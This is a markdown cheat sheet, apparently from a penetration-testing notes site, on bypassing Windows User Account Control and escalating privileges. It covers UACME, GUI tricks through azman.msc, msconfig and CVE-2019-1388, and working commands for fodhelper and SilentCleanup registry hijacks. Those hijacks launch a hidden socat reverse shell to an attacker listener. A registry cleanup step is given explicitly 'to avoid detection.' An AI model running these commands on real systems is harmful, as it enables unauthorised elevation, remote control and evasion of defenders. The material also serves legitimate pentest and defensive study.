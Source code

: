 ```yaml
---
title: UAC Windows Privilege Escalation
description: UAC (User Account Control) is an access control enforcement feature.
tags:
    - Windows
refs:
    - https://github.com/nobodyatall648/CVE-2019-1388
date: 2023-12-06
draft: false
---
```


## Automation

**[UACME](https://github.com/hfiref0x/UACME)** is an automation tool for defeating Windows UAC.

<br />

## Investigation

```powershell
# Check the current user's integrity level
whoami /groups | findstr "Label"
whoami /groups | find "Label"
```

<br />

## UAC Bypass

### AZMAN.MSC (Authorization Manager)

1. Open AZMAN.MSC by entering “azman.msc” in the Run.
2. Click Help and select Help Topics. The MMC window will open.
3. In the MMC window, right-click and select View Source. The Notepad opens.
4. In the Notepad, select File → Open. 
5. then click Open. Command Prompt will open.
6. In Command Prompt, we should escalate to High integrity level. For instance, try `cd C:\Users\Administrator` command. We may be able to access this directory even if we’re not Administrator.
7. In Explorer, select Windows/System32/cmd.exe and right-click, then select Open.
8. We should escalate to High integrity level.

### Fodhelper (Features on Demand Helper)

Fodhelper manages the Windows features settings.

First start listener in local machine for getting incoming connection.

```bash
nc -lvnp 4444
```

In remote Windows machien, add subkey to the registry and execute fodhelper to reverse shell.

```powershell
set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
set CMD="powershell -windowstyle hidden C:\socat.exe TCP:<local-ip>:4444 EXEC:cmd.exe,pipes"
# /v: Value name under the selected key.
# /d: Data to assign to the registry ValueName being added.
# /f: Force overwriting the existing registry entry without prompt.
reg add %REG_KEY% /v "DelegateExecute" /d "" /f
reg add %REG_KEY% /d %CMD% /f & fodhelper.exe
```

We should get a shell and elevate High integrity level.

To check the IL, run the following command.

```powershell
whoami /groups | find "Label"
```

Finally, we need to clear the above settings to avoid detection.

```powershell
# /f: Forces the deletion without prompt
reg delete HKCU\Software\Classes\ms-settings\ /f
```

### Scheduled Task: Disk Cleanup

Start listener for getting reverse connection in local machine.

```bash
nc -lvnp 4444
```

Add the entry to registry to reverse shell.

```powershell

reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\socat.exe TCP:<local-ip>:4444 EXEC:cmd.exe,pipes &REM " /f
# /run: Start the scheduled tasks immediately.
# /tn: Task name
# /I: Idle time
schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

### System Configuration (msconfig)

1. Open System Configuration by entering **"msconfig"** in the Run.
2. Go to Tools tab and select Command Prompt, then click Launch.
3. We should escalate to High integrity level.

<br />

## Abuse UAC Windows Certificate Dialog (CVE-2019-1388)

UAC Windows Certificate Dialog is vulnerable to privilege escalation.

1. Open **hhupd.exe**. The User Account Control window opens.
2. Click the **"Show more details"** and click also **"Show information about the publisher’s certificate"**.  
3. Now click the **"Issued by"** link. Web browser will open.
4. In web browser, select **Tools -> File -> Save as...**.
5. On the explorer window address path, enter the cmd.exe full path as below:

    **"c:\Windows\System32\cmd.exe"**

Now we escalated the privilege.

<br />

